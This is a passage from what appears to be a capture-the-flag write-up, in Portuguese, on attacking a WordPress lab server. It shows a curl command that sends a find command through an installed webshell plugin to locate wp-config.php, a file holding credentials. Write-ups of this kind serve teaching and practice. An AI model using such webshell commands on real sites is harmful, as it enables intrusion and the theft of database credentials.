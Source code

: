 ![Instalação do Plugin com Sucesso](Images/05-instalacao.png.png)


---

---

## 🏁 Fase 4: Capturando a Flag

Com o plugin "Canivete Suíço" instalado e ativo no servidor, o passo final era usá-lo para encontrar e ler o arquivo de configuração do WordPress.

### 4.1 - Encontrando o `wp-config.php`

Para garantir que o arquivo seria encontrado, independentemente de sua localização no sistema de arquivos, o comando `find` foi executado através do webshell. O `2>/dev/null` foi adicionado para suprimir quaisquer erros de permissão e manter a saída limpa.

```bash
curl "http://172.20.7.90/wp-content/plugins/caniveteplugin/canivete.php?cmd=find%20/%20-name%20wp-config.php%202%3E/dev/null"
```
O comando retornou o caminho absoluto do arquivo de configuração: `/var/www/html/wp-config.php`.

![Encontrando o Caminho do wp-config.php](Images/06-find.png.png)
